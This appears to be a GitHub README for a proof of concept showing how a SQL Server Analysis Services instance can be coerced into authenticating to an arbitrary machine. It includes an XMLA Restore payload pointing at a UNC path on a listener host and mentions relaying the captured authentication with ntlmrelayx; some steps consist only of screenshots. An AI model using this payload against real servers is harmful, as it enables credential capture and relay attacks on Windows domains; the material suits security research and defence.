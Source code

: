 # MSSQL Analysis Services - Coerced Authentication

<p align="center">
  A technique to coerce a Windows SQL Server to authenticate on an arbitrary machine.
  <br>
  <img alt="PyPI" src="https://img.shields.io/pypi/v/coercer">
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/Coercer">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
  <br>
</p>

This proof of concept is co-authored by [Podalirius](https://twitter.com/podalirius_) and [Worty](https://twitter.com/_Worty).

## Introduction



## Proof of concept

In order to trigger the authentification as the local machine account, we need to connect to the remote SQL Server using user credentials:

![](./.github/sql_analysis_connect.png)

Then we will select "Restore" to restore the database from a given file.

![](./.github/restore_db.png)

Then

![](./.github/accessed_xml_script.png)

Then

![](./.github/unc_path_in_xml_file.png)

Proof of concept ([poc.xmla](./poc.xmla)):

```xml
<Restore xmlns="http://schemas.microsoft.com/analysisservices/2003/engine">
    <File>\\192.168.2.51\SYSVOL\db.abf</File>
    <DatabaseName>\\192.168.2.51\SYSVOL\db.abf</DatabaseName>
    <DbStorageLocation xmlns="http://schemas.microsoft.com/analysisservices/2008/engine/100/100">\\192.168.2.51\SYSVOL\db.abf</DbStorageLocation>
</Restore>
```

And we get an authentication from the local machine account of the SQL Server:

![](./.github/responder_auth.png)

## Relaying for the win

![](./.github/responder_auth.png)

Once we got the authentification, we can relay it with `ntlmrelayx` to perform many actions on behalf of the computer `SQL01$`.

This is cool, but it is complicated to trigger this coerced authentication from a Linux attacking machine as we do not have access to the SQL Server Management Studio (SSMS). 

## References
 - https://docs.microsoft.com/en-us/sql/database-engine/install-windows/install-sql-server?view=sql-server-ver15
 - https://social.technet.microsoft.com/wiki/contents/articles/13106.sql-server-frequently-used-ports.aspx
 - https://docs.microsoft.com/en-us/answers/questions/274512/connecting-to-azure-analysis-services-using-python.html